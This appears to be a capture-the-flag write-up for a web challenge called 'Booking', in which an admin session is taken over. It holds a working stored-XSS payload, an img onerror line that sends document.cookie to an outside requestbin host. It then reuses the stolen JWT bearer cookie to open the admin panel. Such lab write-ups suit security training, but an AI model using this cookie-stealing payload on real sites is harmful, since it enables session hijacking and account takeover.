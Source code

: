 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:
Create an account. The credentials don't matter all that much, just remember them.<br>
After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
Go to this site in a different tab: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md<br>
<br>
Copy the following snippet of code and paste it into the text box in the original site. <br>
For example:
<img src=x onerror=this.src='https://enqewxf0bhc69.x.pipedream.net/?'+document.cookie;><br>

https://pipedream.com/requestbin<br>
Create a public bin and paste the link you got into the src of the code above<br>
Send the message and check for the token in the requested bin<br>
Go to https://jwt.io/ and translate the Bearer<br>
Use the 'cookie editor' extension or access the cookies though the 'Application' tab in the 'inspect' of the site.<br>
Paste the bearer value, save it and refresh the page<br>
Now you should see a new yellow button next to 'My Moose' that says 'Admin Panel'. <br>
Now this is the buggy part. Enter the admin panel and you will either see a blank page, or you will see the flag. <br>
If you don't see the flag, repeat the login part and redo the cookie edit. Repeat until it works

